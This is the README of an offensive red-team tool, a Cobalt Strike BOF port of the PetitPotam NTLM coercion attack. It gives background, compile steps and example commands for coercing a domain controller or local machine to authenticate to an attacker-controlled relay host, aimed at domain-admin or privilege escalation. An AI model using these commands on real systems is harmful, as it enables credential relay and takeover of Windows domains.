 # PetitPotam BOF

A BOF port of the PetitPotam attack published by [@topotam77](https://twitter.com/topotam77)

## Background of PetitPotam

The PetitPotam attack is a way to remotely coerce a Windows hosts into authenticating to other systems. It abuses functionality of the [MS-EFSRPC](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) (Encrypting File System Remote) protocol, which was incompletely patched by Microsoft in the September 2021 patch round.

MS-EFSRPC allows an attacker to coerce a system into authenticating to a destination system chosen by the attacker using NTLM authentication. With a NTLM relaying tool such as responder.py or Impacket's [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) you can relay to another system that accepts NTLM based authentication. The impact differs on the source and destination systems, but in some cases it may provide you with near-instant Domain Admin privileges.

## How to compile
1. Make sure that Mingw-w64 (including mingw-w64-binutils) has been installed.
2. Enter the SOURCE folder within the tool folder.
3. Type "make" to compile the object files.
4. Use Cobal Strike script manager to import the `PetitPotam.cna` script.

## Usage
Running the tool is straightforward. Once you imported the CNA script using Cobalt Strike's Script Manager, they are available as Cobalt Strike commands that can be executed within a beacon. This tool supports the following commands:

* `PetitPotam [capture server ip or hostname] [target server ip or hostname]`

## Examples
First, prepare your relaying setup (responder, ntlmrelayx e.g.). Then:

* Perform a SMB relay attack with `PetitPotam KALI DC2019` to coerce authentication from a DC to a KALI machine under our control.
* Perform a WebDAV (LDAP/RBCD relay) LPE attack with `PetitPotam KALI@80/nop localhost` to coerce authentication from our machine using WebDAV (HTTP) to a KALI machine under our control.
* Perform a WebDAV (LDAP/RBCD relay) LPE attack with `PetitPotam localhost@80/nop localhost` to coerce authentication from our machine using WebDAV (HTTP) and relay back to our teamserver using socks/rportfwd'ing.

## Limitations
* To be able to coerce authentication using the WebDAV protocol, the WebDAV redirector service needs to be installed (default on client versions of Windows) and the WebClient service needs to be started. On a local Windows client the service can be started using the [StartWebClient](https://github.com/outflanknl/C2-Tool-Collection/tree/main/BOF/StartWebClient) BOF which is available within this repository.
* If you need to relay back to your teamserver (running responder or ntlmrelayx) it is necessary to start 2 separate beacons. One beacon is configured as the socks proxy and reverse port forwarder, the other beacon is used to execute the attack. You won't have this shortcoming in the [reflective DLL version of the code](https://github.com/outflanknl/C2-Tool-Collection/tree/main/Other/PetitPotam), but this version requires a Fork&Run operation.

## Support
This BOF tool has been successfully compiled on Mac OSX systems and used on Windows 8.1+ (x64) systems. Compiling the BOF code should also work on other systems (Linux, Windows) that have the Mingw-w64 compiler installed.

## Credits
* This code is inspired by [@topotam77](https://twitter.com/topotam77) PetitPotam exploit: https://github.com/topotam/PetitPotam
* [@b4rtik](https://twitter.com/b4rtik) for help converting the RPC code to be BOF compatible.

